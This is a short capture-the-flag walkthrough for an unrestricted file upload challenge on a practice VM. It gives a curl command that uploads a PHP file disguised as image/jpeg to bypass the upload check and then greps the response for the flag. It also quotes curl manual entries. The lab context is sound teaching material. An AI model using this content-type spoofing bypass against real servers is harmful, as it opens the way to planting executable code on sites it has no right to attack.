 # Unrestricted File Upload 

##  To discover the flag:

- Run the VM to serve the website, and navigate to http://0.0.0.0/?page=upload using the IP address provided.
- Try uploading any file whether or not it is an image. This should fail. 
- Ensure that the `curl` and `grep` utilities are installed on your system.
- Create an empty file called `file.php`, which will serve as the example payload.
- To bypass the front end checks, run the following command using curl, a tool to transfer data from or to a server, from the command line to force the server to accept an arbitrary file as type image/jpeg, remember to change the IP address:
```bash
curl -X POST -F 'Upload=Upload' -F 'uploaded=@file.php;type=image/jpeg' "http://0.0.0.0/?page=upload" | grep "flag"
```
- The flag will be returned as part of the server response, via the grep command.


### Notes on options and utilites used:

```
 -X, --request <command>
    (HTTP) Specifies a custom request method to use when  communicating  with  the
    HTTP  server.  The specified request method will be used instead of the method
    otherwise used (which defaults to GET). Read the HTTP  1.1  specification  for
    details  and  explanations.  Common  additional  HTTP requests include PUT and
    DELETE, but related technologies like WebDAV offers PROPFIND, COPY,  MOVE  and
    more.

 -F, --form <name=content>
    (HTTP SMTP IMAP) For HTTP protocol family, this lets curl emulate a  filled-in
    form  in  which a user has pressed the submit button. This causes curl to POST
    data using the Content-Type multipart/form-data according to RFC 2388.
```